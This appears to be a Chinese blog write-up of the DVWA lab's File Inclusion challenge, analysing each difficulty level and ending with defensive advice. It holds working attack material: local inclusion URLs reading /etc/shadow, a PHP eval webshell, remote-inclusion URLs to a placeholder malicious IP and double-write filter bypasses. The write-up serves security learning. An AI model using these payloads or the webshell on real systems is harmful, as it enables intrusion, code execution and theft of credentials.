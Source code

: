 ```yaml
---
layout:     post
title:      DVWA靶机学习——File Inclusion(文件包含)
subtitle:   这个系列是学习DVWA靶机的。今天学习File Inclusion的Low、Medium、High、Impossible级别。
date:       2020-07-14
author:     HouKC
header-img: img/post-bg-coffee.jpeg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 File Inclusion(文件包含)

File Inclusion，即文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。

文件包含漏洞通常配合文件上传来获取webshell。



## 0x01 Low

#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
代码就是读取链接中的一个参数page，作为文件包含进来。

http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=file1.php

获取page中的参数，作为php文件执行。

#### 解题思路
- 本地文件包含
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=/etc/shadow
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=C:\test.txt
http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=..\..\php.ini

- 远程文件包含
当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致远程代码执行。

代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=http://恶意ip/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。

需要修改php.ini系统配置allow_url_include=On。
可以在kali虚拟机中开启Apache2服务
```
service apache2 start
cd /var/www/html/
vim shell.php

写入
<?php
echo "welcome test"
?>
保存退出即可。
```
然后访问链接示例：http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=http://192.168.29.135/shell.php 。



## 0x02 Medium

#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 
```
比Low级别多了http:// 和https:// 的过滤以及../ 和.."过滤(严重怀疑源码编写有误，应该是"..\\"，这样才能过滤..\)。但还是可以双写绕过。

使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。

例如：
page =hthttp://tp://ip/phpinfo.txt 时，str_replace函数会将http:// 删除，于是page=http://ip/phpinfo.txt ，成功执行远程命令。
http://ip/dvwa/vulnerabilities/fi/page=...\.\...\.\php.ini 使用...\.\，也就是双写的..\，这样就可以绕过..\过滤了。

#### 解题思路
利用双写绕过和远程文件包含漏洞。

当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致远程代码执行。

代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=hthttp://tp://恶意ip/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。

需要修改php.ini系统配置allow_url_include=On。
可以在kali虚拟机中开启Apache2服务
```
service apache2 start
cd /var/www/html/
vim shell.php

写入
<?php
echo "welcome test"
?>
保存退出即可。
```
然后访问链接示例：http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=hthttp://tp://192.168.29.135/shell.php 。



## 0x03 High

#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
检查文件名为file开头的文件并且文件名不能为include.php。使用fnmatch()确保$file是以file开头。

那么可以利用file伪协议绕过，如：file://C:\\test.txt。php包含进来时会把file://C:\\test.txt当成文件名读进来从而绕过fnmatch，然后在执行包含时会根据file伪协议把file伪协议路径下的文件包含进来。

当然前提是得知道要包含文件的绝对路径，无论什么后缀的文件被包含进来后都会当做php执行。

#### 解题思路
利用文件上传漏洞上传Webshell，然后用伪协议来包含。

Webshell代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=file://绝对路径/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。



## 0x04 Impossible
#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
这是基于白名单的防御，只包含白名单中的文件，一般是无法突破了的。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 如果没有必要就关闭allow_url_fopen与allow_url_include。
- 白名单规定文件名。
- 如果不能白名单那就要设置黑名单过滤（尽可能全）http:// 、..\、../等符号。
- 如果文件包含与文件上传相结合时，还要考虑上传图片文件可能包含代码，应进行文件内容检查，全面防御。